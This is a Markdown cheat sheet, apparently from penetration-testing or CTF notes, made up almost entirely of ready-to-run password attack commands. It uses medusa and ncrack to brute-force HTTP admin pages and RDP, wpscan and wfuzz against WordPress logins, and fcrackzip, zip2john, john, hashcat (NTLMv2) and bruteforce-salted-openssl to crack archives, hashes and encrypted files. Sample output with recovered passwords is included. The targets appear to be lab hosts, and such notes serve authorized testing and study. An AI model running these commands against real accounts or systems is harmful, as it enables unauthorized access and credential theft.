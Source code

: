 #### medusa attack
```bash
medusa -h 10.11.1.219 -u admin -P password.txt -M http -m DIR:/admin -T 10
medusa -h admin.megacorpone.com -u admin -P mangled.txt -M http -n 81 -m DIR:/admin -T 30
```

#### wpscan attack
```bash
ruby wpscan.rb --u 10.10.10.10 --threads 20 --wordlist rockyou.txt --username admin
wpscan --url http://apocalyst.htb --wordlist `pwd`/list.txt --username falaraki (apocalyst)
```

#### Password-protected zip files
```bash
fcrackzip -u -D -p rockyou.txt filename.zip
john hashes.txt --format=nt --wordlist=/usr/share/wordlists/rockyou.txt
```

#### wfuzz attack
```bash
# -c : Output with colors
# --hc/hl/hw/hh N[,N]+ : Hide responses with the specified code/lines/words/chars
# -d postdata : Use post data (ex: "id=FUZZ&catalogue=1")
wfuzz -c -w passwords.txt --hs(or hw) Invalid -d “log=admin&pwd=FUZZ” -u http://192.168.39.155/wp-login.php
wfuzz -c --hw 114 -w /usr/share/wfuzz/wordlist/general/megabeast.txt "192.168.39.155:8787/?page=FUZZ"
```

#### RDP
```bash
ncrack -vv --user admin -P password.txt rdp://10.10.10.11
```

#### hashcat
```bash
# paste the hash into querier.ntlmv2
.\hashcat64.exe --example-hashes
.\hashcat64.exe -m 5600 hashes\querier.ntlmv2 rockyou.txt --force
```

#### Encryption
```bash
bruteforce-salted-openssl -t 10 -f /usr/share/wordlists/rockyou.txt -c aes-256-cbc -d sha256 encrypted
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.
Tried passwords: 22
Tried passwords per second: inf
Last tried password: 1234567890
Password candidate: friends
```

#### Unzip
```bash
7z x 'Access Control.zip'
Password: access4u@security
zip2john 'Access Control.zip' > 'Access.hash'
john 'Access.hash' --wordlist=wordlist
john 'Access.hash' --show
```
